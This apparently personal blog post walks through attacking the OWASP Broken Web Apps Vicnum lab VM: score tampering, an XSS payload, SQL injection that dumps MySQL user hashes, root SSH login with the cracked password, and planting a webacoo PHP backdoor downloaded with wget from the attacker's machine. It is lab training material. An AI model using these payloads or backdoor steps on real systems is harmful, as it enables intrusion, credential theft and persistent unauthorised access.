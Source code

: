 ```yaml
---
layout: post
title: OWASP Broken Web Apps Vicnum - Guessnum
---
```


I started off just playing the game to see what happens moving through the workflow.  After guessing the number in 8 tries I noticed that the count is being passed from the success page over to the scoreboard, using repeater to repeat with different parameters it turns out you can make up your own score by updating the paramter &cnt.

After letting Burp spider the site I saw a union page: union1.html seems like a sql union challenge..

Looking at the page, the name parameter probably isn't sql injectable, but probably XSS vulnerable.

Throwing:

{% highlight javascript %}
<script>alert(1)</script>
{% endhighlight %}

into the URL for the unionguessname GET parameter worked.

Now for the SQLi stuff.

Doing a quick:

{% highlight sql %}
' or 1 = 1 #
{% endhighlight %}

shows query results for all users on the page, so we know its injectable.

Now to get the db users and their passwords:
{% highlight sql %}
'  union all select user,password,3,4 from mysql.user#
{% endhighlight %}

Then with this I first tried crackstation.net, but wasn't able to get all the passwords for root, then I did a little research and it looks like the hashes are SHA1, after some searching I found this site: https://www.hashkiller.co.uk/ which found the root password in question: owaspbwa, this matches the readme when the VM boots up.

Then just to see how to do it I grabbed the whole database through a web request in Burp:
{% highlight sql %}
'  union all select table_schema, table_name,column_name,4 from information_schema.columns where table_schema != 'mysql' and table_schema != 'information_schema'#
{% endhighlight %}

Next lets ssh to the VM:

{% highlight  bash %}
ssh root@ip
pw: owaspbwa
{% endhighlight %}

Now to get a persisted backdoor.

I've been playing with parrot and it looks like it comes with a web backdoor named webacoo, after some researching, it looks pretty solid, now to set things up.  

First the backdoor has to be generated:

{% highlight bash %}
webacoo -g -o bd.php
{% endhighlight %}

The -o option specifies to output to a file and the -g specifies to generate backdoor code, there is another option -f that allows control over what PHP function gets called to invoke the shell.

Next fire up SimpleHTTPServer in Parrot and change directory to the web root /var/www on the VM and run:

{% highlight bash %}
wget http://iptoparrot:8000/bd.php
{% endhighlight %}

Then to test things out:

{% highlight bash %}
webacoo -t -u http://ip/bd.php
{% endhighlight %}